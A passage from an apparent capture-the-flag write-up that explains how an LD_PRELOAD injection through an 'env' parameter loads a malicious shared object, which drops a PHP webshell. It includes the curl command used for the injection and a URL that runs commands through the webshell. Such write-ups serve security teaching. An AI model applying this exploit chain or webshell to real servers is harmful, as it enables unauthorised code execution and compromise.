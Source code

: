 We start by uploading our malicious `.so` file as `/var/www/html/1.txt` using the file write, then we set `LD_PRELOAD` via the `env` parameter with `env=LD_PRELOAD=/var/www/html/1.txt`, then the background wget runs, then it loads our `.so` because of `LD_PRELOAD`, and finally, our constructor runs and drops the webshell as `2.php` in `/var/www/html`.

```bash
 curl -X POST --data-urlencode "context=$(cat tou.b64)" -d "env=LD_PRELOAD=/var/www/html/1.txt" http://127.0.0.1
```

![alt text](/assets/img/QiangQuals/image-4.png)

## Shell Access

After chaining the exploit, we visit [`http://127.0.0.1/2.php?c=ls`](http://127.0.0.1/2.php?c=ls) to confirm our webshell upload:

![Webshell Confirmed](/assets/img/QiangQuals/image.png)

**Success!** Our webshell is live — time to hunt for the flag.

---

### Flag Discovery
